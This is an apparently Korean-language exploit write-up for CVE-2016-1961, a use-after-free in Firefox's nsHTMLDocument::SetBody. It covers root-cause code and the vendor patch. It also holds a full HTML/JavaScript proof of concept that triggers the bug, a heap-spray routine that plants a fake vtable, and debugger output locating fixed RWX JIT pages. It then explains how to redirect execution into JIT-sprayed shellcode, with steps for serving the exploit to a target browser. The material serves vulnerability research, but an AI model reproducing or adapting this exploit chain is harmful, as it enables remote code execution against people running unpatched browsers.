


# Firefox nsHTMLDocument SetBody Use-After-Free

## Information
- CVE : 2016-1961
- 해당 소프트웨어 : Mozilla Firefox (on Windows)
- 해당 버전 : < Firefox 45
- 취약점 유형 : Use-After-Free

## Root Cause
DOM 구조에서 body 태그를 할당하고 해제하는 과정에서 use-after-free 취약점이 발생한다. 근본적인 버그의 원인은 다음과 같다.

**dom/html/nsHTMLDocument.cpp:**
```c++
void
nsHTMLDocument::SetBody(nsGenericHTMLElement* newBody, ErrorResult& rv)
{
  Element* root = GetRootElement(); // root cause

  // The body element must be either a body tag or a frameset tag. And we must
  // have a html root tag, otherwise GetBody will not return the newly set
  // body.
  if (!newBody ||
      !newBody->IsAnyOfHTMLElements(nsGkAtoms::body, nsGkAtoms::frameset) ||
      !root || !root->IsHTMLElement() ||
      !root->IsHTMLElement(nsGkAtoms::html)) {
    rv.Throw(NS_ERROR_DOM_HIERARCHY_REQUEST_ERR);
    return;
  }

  // Use DOM methods so that we pass through the appropriate security checks.
  nsCOMPtr<Element> currentBody = GetBodyElement();
  if (currentBody) {
    root->ReplaceChild(* newBody, * currentBody, rv);
  } else {
    root->AppendChild(* newBody, rv);
  }
}
```

body 태그 혹은 iframe 태그 등으로 body element를 생성한 경우 이는 반드시 root 태그를 가지고 있어야 한다. mutation listener의 경우 DOM tree 구조상 root 태그를 참조할 수 있는데 만약 해당 태그가 해제된 경우 use-after-free 버그가 발생하게 된다. 해제된 태그들의 공간을 fake object로 채워야하는데 이는 다음과 같이 힙 스프레이를 하면 된다.
```js
for (var i = 1; i < 0x5c / 4; i++)
    fake_object[i] = unescape("%u4141%u4141");
fake_object[0] = unescape("%u4242%u4343");   // vtable

var fill_freed = [];
this.spray = () => {
    for (var i = 0; i < 0x1000; i++)
        fill_freed.push(fake_object.join(""));
};
```

## Patch
```patch
# HG changeset patch
# User Andrew McCreight <continuation@gmail.com>

Bug 1249377 - Hold a strong reference to |root| in nsHTMLDocument::SetBody. r=bz

diff --git a/dom/html/nsHTMLDocument.cpp b/dom/html/nsHTMLDocument.cpp
index 868a36a..cfd9014 100644
--- a/dom/html/nsHTMLDocument.cpp
+++ b/dom/html/nsHTMLDocument.cpp
@@ -1029,17 +1029,17 @@ nsHTMLDocument::SetBody(nsIDOMHTMLElement* aBody)
   ErrorResult rv;
   SetBody(static_cast<nsGenericHTMLElement*>(newBody.get()), rv);
   return rv.StealNSResult();
 }
 
 void
 nsHTMLDocument::SetBody(nsGenericHTMLElement* newBody, ErrorResult& rv)
 {
-  Element* root = GetRootElement();
+  nsCOMPtr<Element> root = GetRootElement();
 
   // The body element must be either a body tag or a frameset tag. And we must
   // have a html root tag, otherwise GetBody will not return the newly set
   // body.
   if (!newBody ||
       !newBody->IsAnyOfHTMLElements(nsGkAtoms::body, nsGkAtoms::frameset) ||
       !root || !root->IsHTMLElement() ||
       !root->IsHTMLElement(nsGkAtoms::html)) {
```

## PoC
```html
<html>
<head>

<script>

var ShellStage = new (function () {
/* stuff */
})();

function gc() {
    for (var i = 0; i < 0x10; i++)
        var g = new ArrayBuffer(0x1000000);
}

function main() {
    var f = document.createElement("iframe");
    document.body.appendChild(f);

    var doc = f.contentDocument;
    document.body.removeChild(f);

    doc.body.parentNode.removeChild(doc.body);

    var d = doc.createElement("div").appendChild(doc.createElement("div"));
    d.appendChild(doc.createElement("body"));

    var html = doc.documentElement;
    d.addEventListener("DOMSubtreeModified", function () {
        d.removeEventListener("DOMSubtreeModified", arguments.callee, false);

        for (var i = 0, n = html.childNodes.length; i < n; i++)
            html.removeChild(html.childNodes[0]);

        html.parentNode.removeChild(html);
        html = null;

        doc.appendChild(doc.createElement("html"));
        try {
            doc.body = doc.createElement("div");
        } catch (e) {
        }
        d.removeChild(d.childNodes[0]);

        gc();
        document.location.href = "javascript:ShellStage.spray(); document.location.href='http://google.com';";
        alert();

    }, false);

    doc.body = d.childNodes[0];
}
</script>
</head>

<body onload="main()">
</body>
</html>
```

## How to exploit?
크래시가 발생한 지점은 다음과 같다.

이전 취약점과 마찬가지로 잘못된 vtable을 참조하면서 크래시가 발생하게 되며, 이또한 JIT spray를 통해 익스플로잇할 수 있다. 해당 버전의 경우 여러 보호기법이 적용된 최신의 버전의 힙 매커니즘과 다르기 때문에 고정적으로 할당되는 JIT 페이지를 확인해야 한다. 이는 다음과 같다.
```
0:000> s -d 0x20000000 0x28000000 0x3c909090
2000002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2001002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2002002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2003002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2004002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2005002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2006002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2007002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2008002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
2009002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
200a002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
...
27fa002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fb002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fc002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fd002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fe002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27ff002c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d

0:000> !vprot 27fa002c  
BaseAddress:       27fa0000
AllocationBase:    27fa0000
AllocationProtect: 00000040  PAGE_EXECUTE_READWRITE
RegionSize:        00003000
State:             00001000  MEM_COMMIT
Protect:           00000040  PAGE_EXECUTE_READWRITE
Type:              00020000  MEM_PRIVATE
```

할당된 JIT 페이지들은 RWX 권한을 부여받은 것을 확인할 수 있다. 이러면 동일한 페이지 내에 스택을 할당하여 좀더 손쉽게 쉘코드를 작성할 수 있다. 브라우저의 힙 매커니즘이 크게 달라지지 않는다면 버전에 의존하지 않고 위와 같은 주소에 고정적으로 할당되는 것을 확인할 수 있었다. 즉 44.0.1 이하의 버전들에서 크게 차이나지 않는 경우 동일한 주소에 JIT 페이지가 존재하게 된다. 고로, fake object의 vtable 포인터를 위의 수 많은  JIT 페이지들의 주소로 설정하면 원하는 쉘코드를 실행할 수 있게 된다. 사용한 쉘코드는 이전 익스플로잇과 동일하다. 결과는 다음과 같다.


## How to run exploit?
> OS : Windows 8.1 64bit(or 32bit)  
> Firefox version : 32bit 44.0.1  
1) `exploit.html` 경로에 `python -m SimpleHTTPServer 8080` 명령어 실행
2) 대상 브라우저에서 해당 링크 접속

## Reference
- [ZDI-CAN-3574: nsHTMLDocument SetBody Use-After-Free RCE](https://bugzilla.mozilla.org/show_bug.cgi?id=1249377)